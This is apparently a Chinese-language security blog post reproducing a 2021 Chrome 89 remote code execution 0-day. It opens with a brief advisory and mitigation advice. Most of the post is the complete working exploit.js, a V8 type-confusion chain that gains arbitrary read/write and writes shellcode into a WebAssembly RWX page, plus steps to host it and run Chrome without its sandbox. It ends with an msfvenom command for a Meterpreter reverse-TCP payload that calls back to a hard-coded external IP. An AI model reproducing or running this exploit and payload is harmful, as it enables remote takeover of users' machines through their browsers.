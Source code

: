 ```yaml
---
layout:     post
title:      "Chrome_RCE_89.0.4389.90_漏洞复现"
subtitle:   "欢迎浏览"
date:       2021-11-20 23:39:00
author:     "zhangsanjin"
header-img: "img/bg/hello_world.jpg"
catalog: true
tags:
- exploit
---
```



# [Chrome 远程代码执行0Day漏洞(20210413)](https://www.cnblogs.com/ethtool/p/14652420.html)

2021年04月13日，360CERT监测发现`国外安全研究员`发布了`Chrome 远程代码执行 0Day`的POC详情.

该漏洞已验证.

# 漏洞级别

严重；`Google:Chrome`: <=89.0.4389.114

> 组件: Chrome
>
> 漏洞类型: 命令执行
>
> 影响: 服务器接管
>
> 简述: 攻击者利用此漏洞，可以构造一个恶意的web页面，当用户访问该页面时，会造成远程代码执行。
>
> 目前该漏洞已在最新版本Chrome上得到验证

# 漏洞修复建议：

### 通用修补建议

**目前Google只针对该漏洞发布了beta测试版Chrome（90.0.4430.70）修复**，Chrome正式版（89.0.4389.114）仍存在漏洞，请关注官方Chrome正式版更新，及时修补漏洞。

### 临时修补建议

强烈建议广大用户在SandBox模式下运行Chrome



# POC

https://github.com/r4j0x00/exploits/tree/master/chrome-patch-gap

将以下网页丢到WEB服务里，用待测的chrome访问即可触发。**但要注意，运行的chrome要在沙盒sandbox关闭的状态下才能利用成功！chrome安全考虑默认启动都是在沙盒中，因利用要诱导用户在no-sandbox下访问才能触发漏洞，所以利用又加了一个条件...**



**可以在chrom快捷方式属性增加--no-sandbox 也可以在命令行启用chrome 键入：chrome.exe --no-sandbox**

**![img](/assets/1312861-20210413150837598-1268951416.png)**



exploit.html代码：

```html
<script src="exploit.js"></script>
```



[exploit.js](https://github.com/r4j0x00/exploits/blob/master/chrome-0day/exploit.js)代码：

```javascript
/*
BSD 2-Clause License
Copyright (c) 2021, rajvardhan agarwal
All rights reserved.
Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions are met:
1. Redistributions of source code must retain the above copyright notice, this
   list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright notice,
   this list of conditions and the following disclaimer in the documentation
   and/or other materials provided with the distribution.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS"
AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE
IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE
DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE
FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL
DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR
SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY,
OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE
OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
*/

var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
let buf2 = new ArrayBuffer(0x150);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

const _arr = new Uint32Array([2**31]);

function foo(a) {
    var x = 1;
	x = (_arr[0] ^ 0) + 1;

	x = Math.abs(x);
	x -= 2147483647;
	x = Math.max(x, 0);

	x -= 1;
	if(x==-1) x = 0;

	var arr = new Array(x);
	arr.shift();
	var cor = [1.1, 1.2, 1.3];

	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(true);

var x = foo(false);
var arr = x[0];
var cor = x[1];

const idx = 6;
arr[idx+10] = 0x4242;

function addrof(k) {
    arr[idx+1] = k;
    return ftoi(cor[0]) & 0xffffffffn;
}

function fakeobj(k) {
    cor[0] = itof(k);
    return arr[idx+1];
}

var float_array_map = ftoi(cor[3]);

var arr2 = [itof(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    fake[0] = itof(BigInt(val));
}

function copy_shellcode(addr, shellcode) {
    let dataview = new DataView(buf2);
    let buf_addr = addrof(buf2);
    let backing_store_addr = buf_addr + 0x14n;
    arbwrite(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
        dataview.setUint32(4*i, shellcode[i], true);
    }
}

var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
console.log("[+] Address of rwx page: " + rwx_page_addr.toString(16));
var shellcode = [3833809148,12642544,1363214336,1364348993,3526445142,1384859749,1384859744,1384859672,1921730592,3071232080,827148874,3224455369,2086747308,1092627458,1091422657,3991060737,1213284690,2334151307,21511234,2290125776,1207959552,1735704709,1355809096,1142442123,1226850443,1457770497,1103757128,1216885899,827184641,3224455369,3384885676,3238084877,4051034168,608961356,3510191368,1146673269,1227112587,1097256961,1145572491,1226588299,2336346113,21530628,1096303056,1515806296,1497454657,2202556993,1379999980,1096343807,2336774745,4283951378,1214119935,442,0,2374846464,257,2335291969,3590293359,2729832635,2797224278,4288527765,3296938197,2080783400,3774578698,1203438965,1785688595,2302761216,1674969050,778267745,6649957];
copy_shellcode(rwx_page_addr, shellcode);
f();
```



可以搭建http服务,将`exploit.html`和`exploit.js`复制到web目录下

```shell
python3 -m http.server 
```





多次刷新网页，成功弹出计算器：

![image-20211114070021323](/assets/image-20211114070021323.png)





后续可将shellcode换成msf所生成的shellcode,进行替换

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=175.24.115.4 lport=5555 -f csharp -o payload3.txt
```

